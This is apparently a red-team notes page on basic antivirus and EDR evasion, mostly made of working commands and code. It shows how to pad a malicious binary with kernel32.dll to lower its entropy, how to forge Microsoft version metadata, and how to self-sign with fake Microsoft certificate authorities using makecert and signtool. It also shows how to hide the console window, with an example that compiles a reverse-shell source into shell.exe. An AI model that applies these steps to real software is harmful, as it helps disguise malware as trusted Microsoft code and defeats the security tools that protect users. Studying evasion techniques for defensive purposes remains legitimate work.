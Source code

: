 # Basic AV Evasion

## Entropy

File entropy is involved in the detection cycle.

Entropy is a measure of uncertainty or randomness. It is used in association with some encryption or obfuscation technologies. The more randomness in the data, the higher the entropy. The less randomness and more structure, the lower the entropy.

Obfuscation and encryption hide our malicious code from AVs or EDRs but changes the file entropy.

Heuristic analysis used in security products calculates the entropy of a file to detect if there is encrypted data inside and use that information for detection. It is not essential to evade entropy detection but some EDRs trigger alerts for this.

### Check entropy

For this case, we are going to use the Helium Hex Editor tool. To check the entropy we have to do the following:

![](../../../../.gitbook/assets/helium1.png)

![](../../../../.gitbook/assets/helium2.png)

### Bypass entropy

To evade entropy we can do several things:

* Copy all variables from the data section (i.e., all global variables) and paste them into the text section (or code, inside a function).
* We can add the contents of a binary or DLL to our malicious binary:

```
type C:\Windows\System32\kernel32.dll >> test.exe
```

## Binary details

When we talk about the details of a file or binary, this is what we mean:

![](../../../../.gitbook/assets/calc\_details.png)

### Add details

To add details to a file, we have many ways.

{% tabs %}
{% tab title="ResourceHacker" %}
### Steps

1. File -> Open -> Malicious binary
2. Action -> Add from a Resource file (\*res, \*.mui, \*.dll, \*.exe) -> `kernel32.dll` or any other legitimate file (preferably Microsoft).
3. We import the version information:

![](../../../../.gitbook/assets/reshacker\_datails.png)

4\. Save.
{% endtab %}

{% tab title="Compilation" %}
If we have a C/C++ code, we can create an .rc file with all the details and compile it:

{% code title="version_info.rc" %}
```

1 VERSIONINFO
FILEVERSION 1,0,0,1
PRODUCTVERSION 1,0,0,1
FILEOS 0x40004
FILETYPE 0x2
{
BLOCK "StringFileInfo"
{
	BLOCK "040904B0"
	{
		VALUE "CompanyName", "Microsoft Corporation"
		VALUE "FileDescription", "Windows NT BASE API Client DLL"
		VALUE "FileVersion", "1.0.0.1 (WinBuild.100001.0010)"
		VALUE "InternalName", "kernel32"
		VALUE "LegalCopyright", "\xA9 Microsoft Corporation. All rights reserved."
		VALUE "OriginalFilename", "kernel32"
		VALUE "ProductName", "Microsoft\xAE Windows\xAE Operating System"
		VALUE "ProductVersion", "1.0.0.1"
	}
}

BLOCK "VarFileInfo"
{
	VALUE "Translation", 0x0409 0x04B0  
}
}
```
{% endcode %}

The compilation file would look something like this:

```batch
@ECHO OFF

rc version_info.rc
cvtres /MACHINE:x64 /OUT:version_info.o version_info.res
cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tc<FILENAME>.cpp /link /OUT:test.exe /SUBSYSTEM:CONSOLE /MACHINE:x64 version_info.o
del *.obj *.o *.res
```
{% endtab %}
{% endtabs %}

## Binary signature

### Sign binary

```shell
makecert -pe -r -n "CN=Microsoft Root Certificate Authority 2010,O=Microsoft Corporation,L=Redmond,5=Washington,C=US" -sr CurrentUser -ss CA -a sha256 -cy authority -sky signature -sv CA.pvk CA.cer
makecert -pe -n "CN=Microsoft Windows Production PCA 2011,O=Microsoft Corporation,L=Redmond,S=Washington,C=US" -a sha256 -cy end -sky signature -eku 1.3.6.1.5.5.7.3.3,1.3.6.1.4.1.311.10.3.24,1.3.6.1.4.1.311.10.3.6 -ic CA.cer -iv CA.pvk -sv SPC.pvk SPC.cer
pvk2pfx -pvk SPC.pvk -spc SPC.cer -pfx SPC.pfx
signtool sign /f /v SPC.pfx <BINARY>
```

## Hiding console

When we have a source code (for example, C++ or NIM), we need to compile it to generate an .EXE binary. The problem occurs if we compile it as if it were a console application, because when we run it, a console will appear, which is very obvious and can alert the user. To avoid this, we can:

* Compile it for a GUI application.
* Add a line of code that uses a more "stealthy" console.
* Etc.

### For C++ code

{% tabs %}
{% tab title="FreeConsole" %}
For this method, all we have to do is to add the following function in the `main()` function of the source code, at the beginning of everything or after declaring some variables:

```cpp
int main(void) {
	int pid = 0;
	HANDLE hProc = NULL;
	FreeConsole(); // Add this
	...
```

The only disadvantage of this, is that this terminal (**FreeConsole**), appears a fraction of a second (less than the previous one but it appears).
{% endtab %}

{% tab title="GUI trick" %}
Change the `main()` function to `WinMain()`:

```cpp
int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
    LPSTR lpCmdLine, int nCmdShow) {
```

Due to this change, we will have to change the compilation from **CONSOLE** type to **WINDOWS** (GUI format).

{% hint style="success" %}
Example with the VS console, and the `revshell.cpp` file.
{% endhint %}

```shell
cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcrevshell.cpp /link /OUT:shell.exe /SUBSYSTEM:WINDOWS /MACHINE:x64
```

{% hint style="danger" %}
Remember that when changing the GUI format, we must eliminate all the functions that work only in console, such as `printf()`.
{% endhint %}
{% endtab %}
{% endtabs %}

### For NIM code

Change the value of the `--app` parameter from **console** to **gui**:

```bash
nim c -d=mingw --app=gui --cpu=amd64 launcher.nim
```
